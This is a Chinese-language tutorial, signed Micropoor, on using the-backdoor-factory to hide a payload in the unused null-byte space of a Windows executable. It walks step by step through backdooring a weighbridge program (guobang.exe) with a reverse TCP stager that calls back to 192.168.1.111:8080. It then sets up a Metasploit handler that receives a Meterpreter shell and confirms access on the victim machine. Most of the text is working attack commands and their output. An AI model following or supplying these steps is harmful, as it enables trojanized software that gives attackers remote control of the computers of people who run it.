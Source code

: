 
# 工具介绍 the-backdoor-factory

项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

### 原理
可执行二进制文件中有大量的 00，这些 00 是不包含数据的，将这些数据替换成 payload，并且在程序执行的时候，jmp 到代码段，来触发 payload。

### 以项目中的过磅系统为例：

```bash
root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor-factory.git
//安装the-backdoor-factory
```  
![](media/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S
//检测是否支持后门植入
```  
![](media/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150
//测试裂缝空间size150
```  
![](media/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show
//查看可用payload
```  
![](media/c576aabd967bcbbf39467dcf40ec2759.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded
//插入payload，并生成文件。
```  
![](media/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值
```  
![](media/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小
```  
![](media/edd13750f6b3e03121e63e805b4a5b97.jpg)

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```  
![](media/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件  
![](media/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```bash
meterpreter > getuid
Server username: John-PC\John
```
//确定目标  

![](media/613afd4b9343cfd43965aa934b71cc48.jpg)

<p align="right">--By  Micropoor </p>
